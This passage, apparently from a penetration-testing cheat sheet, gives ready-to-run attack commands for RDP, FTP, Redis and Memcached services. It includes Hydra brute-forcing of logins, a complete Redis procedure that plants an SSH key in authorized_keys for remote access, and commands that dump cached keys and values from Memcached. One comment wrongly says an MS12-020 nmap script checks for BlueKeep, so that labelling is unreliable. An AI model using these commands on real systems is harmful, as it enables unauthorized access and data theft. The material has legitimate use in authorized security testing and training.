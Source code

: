 ### RDP (Port 3389)

```bash
# Basic scan
nmap -sV -p 3389 --script=rdp-* target.com

# Check for BlueKeep vulnerability (CVE-2019-0708)
nmap --script rdp-vuln-ms12-020 -p 3389 target.com

# Brute force with Hydra
hydra -L users.txt -P passwords.txt rdp://target.com
```

### FTP (Port 21)

```bash
# Basic scan
nmap -sV -p 21 --script=ftp-* target.com

# Anonymous login check
ftp target.com
> anonymous
> anonymous@domain.com

# Brute force with Hydra
hydra -L users.txt -P passwords.txt ftp://target.com
```

### Redis (Port 6379)

```bash
# Basic scan
nmap -sV -p 6379 --script=redis-* target.com

# Connect to Redis
redis-cli -h target.com

# If no authentication required, check server information
redis-cli -h target.com INFO

# SSH key upload for remote access (if Redis runs as a user with .ssh directory)
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/key.txt
cat /tmp/key.txt | redis-cli -h target.com -x set ssh_key
redis-cli -h target.com config set dir /home/redis/.ssh/
redis-cli -h target.com config set dbfilename "authorized_keys"
redis-cli -h target.com save
```

### Memcached (Port 11211)

```bash
# Basic scan
nmap -sV -p 11211 --script=memcached-* target.com

# Dump memcached keys
echo "stats items" | nc target.com 11211
echo "stats cachedump 1 0" | nc target.com 11211

# Get values for keys
echo "get key_name" | nc target.com 11211
```
